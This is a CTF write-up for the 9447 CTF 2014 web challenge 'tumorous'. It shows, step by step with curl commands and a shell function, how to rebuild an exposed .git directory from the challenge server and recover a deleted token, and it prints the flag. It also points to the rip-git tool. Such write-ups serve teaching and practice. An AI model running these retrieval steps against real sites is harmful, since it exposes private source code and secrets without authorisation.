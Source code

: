 # 9447 CTF 2014: tumorous

**Category:** Web
**Points:** 100
**Description:**

> They are following me. They are after my token. I have to hide it somewhere. I’m not very good at hiding.
>
> [tumorous.9447.plumbing](http://tumorous.9447.plumbing/)

## Write-up

**Note:** This challenge is a harder version of [the _bashful_ challenge](https://github.com/ctfs/write-ups/tree/master/9447-ctf-2014/bashful#readme).

The page at <http://tumorous.9447.plumbing/> contains:

> 13/2/2004: I learned how to html, yay!
> 12/4/2004: I learned how to use git, yay!
> 13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
> 08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
> 10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
> 10/9/2004: I can't forget my token. What do I do?
> 11/9/2004: I panicked and deleted the token. It is the work of evil doers.
> 12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.

The second line hints at Git, so let’s try visiting <http://tumorous.9447.plumbing/.git/>. It returns a 403 Forbidden status code, indicating that the `.git` directory exists on the server, although directory listings are disabled.

An easy way to figure out which files are usually present in a `.git` folder is to create a new Git repository.

```bash
$ cd $(mktemp -d /tmp/tumorous-XXXX)

$ git init

$ cd .git

$ ls -Rls
total 24
8 -rw-r--r--   1 mathias  wheel   23 Nov 30 15:24 HEAD
8 -rwxr--r--   1 mathias  wheel  137 Nov 30 15:24 config
8 -rw-r--r--   1 mathias  wheel   73 Nov 30 15:24 description
0 drwxr-xr-x  11 mathias  wheel  374 Nov 30 15:24 hooks
0 drwxr-xr-x   3 mathias  wheel  102 Nov 30 15:24 info
0 drwxr-xr-x   4 mathias  wheel  136 Nov 30 15:24 objects
0 drwxr-xr-x   4 mathias  wheel  136 Nov 30 15:24 refs

./hooks:
total 80
 8 -rwxr-xr-x  1 mathias  wheel   452 Nov 30 15:24 applypatch-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel   896 Nov 30 15:24 commit-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel   189 Nov 30 15:24 post-update.sample
 8 -rwxr-xr-x  1 mathias  wheel   398 Nov 30 15:24 pre-applypatch.sample
 8 -rwxr-xr-x  1 mathias  wheel  1642 Nov 30 15:24 pre-commit.sample
 8 -rwxr-xr-x  1 mathias  wheel  1352 Nov 30 15:24 pre-push.sample
16 -rwxr-xr-x  1 mathias  wheel  4951 Nov 30 15:24 pre-rebase.sample
 8 -rwxr-xr-x  1 mathias  wheel  1239 Nov 30 15:24 prepare-commit-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel  3611 Nov 30 15:24 update.sample

./info:
total 8
8 -rw-r--r--  1 mathias  wheel  240 Nov 30 15:24 exclude

./objects:
total 0
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 info
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 pack

./objects/info:

./objects/pack:

./refs:
total 0
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 heads
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 tags

./refs/heads:

./refs/tags:

```

Now we have a list of files and folders we can look for on the server: `http://tumorous.9447.plumbing/.git/HEAD`, `http://tumorous.9447.plumbing/.git/config`, etc. Let’s recreate the expected directory structure locally, and download these files:

```bash
mkdir -p /tmp/restored-git-repo/.git;
cd /tmp/restored-git-repo/.git;
mkdir -p {hooks,info,objects/{info,pack},refs/{heads,tags}};
for file in HEAD config description info/exclude refs/heads/master; do
  curl "http://tumorous.9447.plumbing/.git/${file}" > "${file}";
done;
cd ..;
```

Whenever we run a Git command in the repository, we get an error:

```bash
$ git log
fatal: bad object HEAD
```

Let’s see what `HEAD` refers to:

```bash
$ cat .git/HEAD
ref: refs/heads/master

$ cat .git/refs/heads/master
3dbda5576912236328494b11f9361dca66c0218a
```

Due to [the way Git stores objects](http://git-scm.com/book/en/v2/Git-Internals-Git-Objects), the object `3dbda5576912236328494b11f9361dca66c0218a` is expected to be at `.git/objects/3d/bda5576912236328494b11f9361dca66c0218a`. Let’s write a function to download such objects based on their hash:

```bash
function fetchobject() {
  hash="${1}";
  dir="${hash:0:2}";
  file="${hash:2:38}";
  mkdir -p ".git/objects/${dir}";
  path=".git/objects/${dir}/${file}";
  curl -s "http://tumorous.9447.plumbing/${path}" > "${path}";
}
```

Now we can easily download the first missing piece, i.e. object `3dbda5576912236328494b11f9361dca66c0218a`:

```bash
$ fetchobject 3dbda5576912236328494b11f9361dca66c0218a
```

Now, let’s try running `git log` again:

```bash
$ git log
error: Could not read 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
fatal: Failed to traverse parents of commit 3dbda5576912236328494b11f9361dca66c0218a
```

Another missing object! Let’s download it and try again:

```bash
$ fetchobject 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a

$ git log
commit 3dbda5576912236328494b11f9361dca66c0218a
Author: root <root@ip-172-31-5-48.ap-southeast-2.compute.internal>
Date:   Sat Nov 29 03:21:33 2014 +0000

    My token now exists!

commit 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
Author: John Doe <fsck@you.me>
Date:   Tue Oct 7 08:32:28 2014 +0000

    I'm new to this repo stuff
```

Yay! We can now view the commit log. Effectively this is now a _bare_ Git repository: it contains the repository data but not the actual files. Let’s restore those as well:

```bash
$ git config --local --bool core.bare false

$ git checkout -f
error: unable to read sha1 file of token (0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0)

$ fetchobject 0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0

$ git checkout -f
error: unable to read sha1 file of index.html (3bba60ef48578d0619aff067c7f6596c1426ce96)

$ fetchobject 3bba60ef48578d0619aff067c7f6596c1426ce96

$ git checkout -f

$ ls
index.html token

$ cat token
9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

The flag is `9447{IM_SITTING_ON_A_PILE_OF_GOLD}`.

### Alternate solution

This challenge is trivial to solve using [rip-git](https://github.com/kost/dvcs-ripper/blob/master/rip-git.pl):

```bash
$ perl ./rip-git.pl -v -u http://tumorous.9447.plumbing/.git/

$ cat token
9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

## Other write-ups and resources

* [Write-up by Hypnosec](https://github.com/hypnosec/writeups/blob/master/2014/9447-ctf/web/tumorous.md)
